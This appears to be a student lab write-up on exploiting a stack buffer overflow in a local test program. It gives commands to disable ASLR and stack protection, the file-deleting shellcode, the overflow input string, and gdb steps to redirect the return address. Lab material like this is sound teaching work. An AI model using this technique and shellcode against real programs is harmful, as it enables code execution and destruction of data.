# Inject code to delete file: file_del.asm is given on github 
## 1. Environment preparation 

**Disable randomization of memory addresses**
    
- >sudo sysctl -w kernel.randomize_va_space=0

    

**Compile vuln.c with some option**
- >gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
    - -fno-stack-protector: Disable stack protection
    - -z execstack: allow to execute code on stack
    

**Turn off stack protector of version 16.04, replace shell /bin/sh by /bin/zsh**
- >sudo ln -sf /bin/zsh /bin/sh

    

**Create dummyfile to delete**
- 

## 2. Get shellcode of file_del.asm
**Observing the ASCII table, we need to avoid the following characters:**
- 0x00 because it marks the end of a string.
- 0x09 because it's the tab character and would split the argument.
- 0x0a because it's the newline character and would also terminate the string.

**Compile file_del.asm**
- >nasm -g -f elf file_del.asm; ld -m elf_i386 -o file_del file_del.o

**Get shellcode**
- >for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

**Shellcode of file_del.asm**
- >\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.



## 3. Attack vuln.c
### Code: 



### Stackframes:



### Buffer overflow 

- Input shellcode to buf[]
- Exploit buffer overflow to replace return address by address of buf[]
=> the shellcode will be execute and delete dummyfile

**72 bytes = 36 bytes (shellcode) + 32 byte(placement code) + 4 bytes (return address)**

### Take stackframe addresses

1. >gdb vuln.out

2. >disas main

    

3. Add breakpoint before return 
    >b *0x0804846b

    

4. Return program with the input string
    >r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

5. View the stackframes
    >x/80xb $esp

    

6. Look back at the assembly code by using command: 
    >objdump -d file_del

    

7. Update address: 

- Turn back to original string. Turned x00 to  x0f to be able to input, now turn back.
    >set *0xffffd6eb=0x61616100 

- Set return address to the top of buf[], to execute code.
    >set *0xffffd70c=0xffffd6c8 

- Set true value of _filename string "dummyfile".
    >set *0xffffd6d1=0xffffd6e2

8. View stackframes again
    >x/80xb $esp

    

9. Continue running the program

    

    

=> Delete dummyfile successfully